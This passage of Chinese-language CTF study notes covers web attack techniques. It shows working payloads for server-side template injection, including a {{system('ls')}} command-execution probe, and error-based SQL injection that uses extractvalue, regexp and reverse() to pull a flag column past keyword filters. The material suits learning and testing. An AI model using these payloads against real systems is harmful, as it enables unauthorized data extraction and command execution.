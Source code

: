 	E >> programfiles >> fuzzdb >> attack >> sql-injection >> detect >> xplatform.txt

- 添加payload位置,开始攻击
- 攻击完之后可以查看哪些payload被过滤



## 模板注入

**Flask**可能存在**Jinjia2模版注入漏洞**
**PHP**可能存在**Twig模版注入漏洞**

添加模版算式，检测其是否可被执行：

```php
X-Forwarded-For: {{7*7}}
```

如果成功执行,尝试是否能执行命令

`{{system('ls')}}`



## regexp使用

`where(F1rst_to_Th3_eggggggggg!)regexp('^f')`

筛选为f开头的flag内容

`'f$'`

筛选为f结尾的

payloa实例:

```
0"||extractvalue(1,concat('~',(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))||"
```



## reverse()函数

当过滤了mid、substr、left、right关键字，无法分段读取时

可以使用reverse函数倒序输出字符串

payload实例:

```
0"||extractvalue(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))))||"
```



## 无列名注入

在无列名注入前要先爆破列数
